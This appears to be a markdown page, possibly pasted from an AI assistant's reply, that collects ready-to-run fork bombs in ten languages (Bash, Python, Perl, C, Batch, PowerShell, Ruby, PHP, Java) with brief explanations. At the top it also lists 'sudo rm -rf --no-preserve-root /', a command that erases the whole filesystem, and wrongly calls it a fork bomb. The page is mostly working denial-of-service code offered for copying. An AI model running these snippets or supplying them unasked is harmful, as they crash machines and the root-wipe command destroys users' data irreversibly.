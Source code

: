 
**Common linux-terminal/bash fork bomb** :-
- :(){ :|:& };:
- sudo rm -rf --no-preserve-root /


### **Types of Fork Bombs**

A **fork bomb** is a type of denial-of-service (DoS) attack that continuously creates new processes, overwhelming system resources and causing a crash. Below are various types of fork bombs across different operating systems and programming languages.

---

### **1. Bash Fork Bomb** (Classic)

```bash
:(){ :|:& };:
```

- Most well-known fork bomb.
- Creates two child processes recursively.

---

### **2. Bash Variant with Comments**

```bash
:(){
  :|:&
}; :
```

- Same as the classic Bash fork bomb but formatted for readability.

---

### **3. Python Fork Bomb**

```python
import os
while True:
    os.fork()
```

- Uses `os.fork()` to create new processes indefinitely.
- Can quickly exhaust system resources.

---

### **4. Perl Fork Bomb**

```perl
fork while fork
```

- Creates child processes infinitely in Perl.

---

### **5. C Fork Bomb**

```c
#include <unistd.h>

int main() {
    while(1) {
        fork();
    }
    return 0;
}
```

- A compiled C program that keeps creating child processes.

---

### **6. Windows Batch Fork Bomb**

```batch
%0|%0
```

- Works in Windows by recursively calling the script itself.

---

### **7. PowerShell Fork Bomb**

```powershell
1..100000 | ForEach-Object {Start-Job -ScriptBlock {param($p) while ($true) { Start-Process powershell -ArgumentList "-NoExit" }} -ArgumentList $_}
```

- Spawns multiple PowerShell processes in an infinite loop.

---

### **8. Ruby Fork Bomb**

```ruby
fork { fork }
```

- Uses the `fork` method in Ruby to create infinite child processes.

---

### **9. PHP Fork Bomb**

```php
<?php
while (true) {
    pcntl_fork();
}
?>
```

- Uses PHP’s `pcntl_fork()` to spawn infinite processes.

---

### **10. Java Fork Bomb**

```java
public class ForkBomb {
    public static void main(String[] args) {
        while (true) {
            new Thread(() -> main(args)).start();
        }
    }
}
```

- Spawns new threads indefinitely, consuming CPU and RAM.

---

### **Databases or Resources on Fork Bombs**

There is **no official central database** that catalogs fork bombs, as they are mostly used for educational or malicious purposes. However, you can find information in:

1. **Wikipedia** – Search for “Fork bomb”
2. **ExploitDB** ([https://www.exploit-db.com/](https://www.exploit-db.com/)) – Some variations of fork bombs may be listed here.
3. **MITRE ATT&CK Framework** ([https://attack.mitre.org/](https://attack.mitre.org/)) – Check process exhaustion techniques.
4. **Security Forums** – Discussions on Stack Overflow, GitHub, and security blogs.
5. **Cybersecurity Books** – “Hacking: The Art of Exploitation” discusses process-based attacks.

Would you like a compiled document of these for future reference?
